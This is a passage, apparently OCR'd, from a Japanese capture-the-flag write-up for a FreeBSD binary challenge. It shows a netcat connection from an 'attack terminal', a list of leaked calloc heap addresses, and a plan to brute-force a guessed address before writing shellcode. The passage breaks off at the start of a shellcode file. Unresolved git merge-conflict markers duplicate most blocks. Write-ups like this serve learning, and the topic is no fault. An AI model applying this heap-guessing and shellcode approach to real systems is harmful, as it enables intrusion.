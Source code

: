 <<<<<<< HEAD
-----  attack terminal
# nc 10.81.45.21 3344
-----
=======
\-\-\-\-\-  attack terminal
\# nc 10.81.45.21 3344
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　connectすると、calloc関数が1024回呼び出されます。そして、関数フックによ
り、callocの戻り値が出力されます。

<<<<<<< HEAD
-----  freebsd terminal
# ./realworld200-be2241fd5ac13d18c2360046dba7ed0e
=======
\-\-\-\-\-  freebsd terminal
\# ./realworld200\-be2241fd5ac13d18c2360046dba7ed0e
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
0804C000
0804C080
0804C100
0804C180
.....
......
0806BE80
0806BF00
0806BF80
08053800
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　この中から好きなアドレスを選び、決め打ちします。決め打ちにしたとしても、
1024回試行すれば、1回は成功する確率なので、ここはブルートフォースで攻略し
ます。

　次にshellcodeの問題ですが、今回はサイズが膨大にあるわけではないため、そ
の点を若干考慮して作成します。

<<<<<<< HEAD
-----  shellcode.s
=======
\-\-\-\-\-  shellcode.s
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
.globl main
